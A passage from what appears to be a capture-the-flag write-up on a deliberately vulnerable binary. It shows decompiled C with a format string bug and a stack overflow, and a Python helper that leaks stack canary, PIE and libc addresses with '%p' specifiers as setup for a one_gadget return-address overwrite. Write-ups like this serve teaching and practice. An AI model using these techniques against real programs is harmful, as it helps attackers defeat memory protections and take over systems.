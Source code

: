 ```c
    *puVar2 = 0;
    puVar2 = puVar2 + 1;
  }
  printf("\n[*] Use the \'%%p\' format specifier to leak addresses on the stack.");
  printf("\n[*] Find a \'libc address\', a \'PIE address\' and \'Canary\'.");
  printf(
        "\n[*] Overflow the buffer and SFP, place the correct \'Canary\' value and overwrite the\'Return address\' to perform a \'one_gadget\' attack."
        );
  printf("\n\n[*] Format string bug:\n> ");
  read(0,local_118,0xff);
  printf((char *)local_118);
  printf("\n[*] Overflow:\n> ");
  read(0,local_158,0x15e);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

⚠️ ***The difference here is at `read(0, local_158, 0x15e)*** ⚠️  

Both bugs are visible here:
* `Format string`: `printf((char *)local_118);`
* `Overflow`: `read(0,local_158,0x15e);`

More about format string can be found [here](https://en.wikipedia.org/wiki/Uncontrolled_format_string).

From the `man 3` page of `printf`:

```console
SYNOPSIS
#include <stdio.h>

int printf(const char *format, ...);


p      The void * pointer argument is printed in hexadecimal (as if by %#x or %#lx).
```

Means that if `printf` takes as format the `%p` specifier, it will print the void pointer of the argument. When it does not have an address to print, it will go to print addresses from the stack. This way, we can leak many things. I have created a function that will print potential `libc`, `PIE` addresses and `Canary` valus.

```python
def leaks(r):
  r.sendlineafter(b">", "%p "*100)
  values = r.recvline().split()
  counter = 1
  print("\n")
  for i in values:
    if len(i) > 16 and i.endswith(b"00"):
      print(f"[*] Possible Canary:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x5")):
      print(f"[*] Possible PIE address:\nIndex: {counter} -> {i.decode()}\n")
    if (i.startswith(b"0x7f")):
      print(f"[*] Possible LIBC address:\nIndex: {counter} -> {i.decode()}\n")
    counter += 1
```
